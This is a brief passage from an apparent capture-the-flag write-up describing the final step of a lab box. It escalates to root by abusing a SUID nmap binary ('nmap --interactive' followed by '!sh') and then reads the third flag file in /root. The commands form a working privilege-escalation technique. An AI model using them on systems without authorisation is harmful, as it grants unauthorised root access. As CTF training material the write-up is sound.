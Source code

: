 Exploit SUID `nmap`

[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

If `nmap` has SUID bit set, run:

```bash
nmap --interactive
```

At the prompt, type:

```
!sh
```

This spawns a root shell.

Confirm root and capture final flag.

```bash
whoami
ls /root
cat /root/key-3-of-3.txt
```

![image.png](image%2011.png)

---

<style>
.center img {
  display: block;
  margin-left: auto;
  margin-right: auto;
}
.wrap pre {
  white-space: pre-wrap;
}
</style>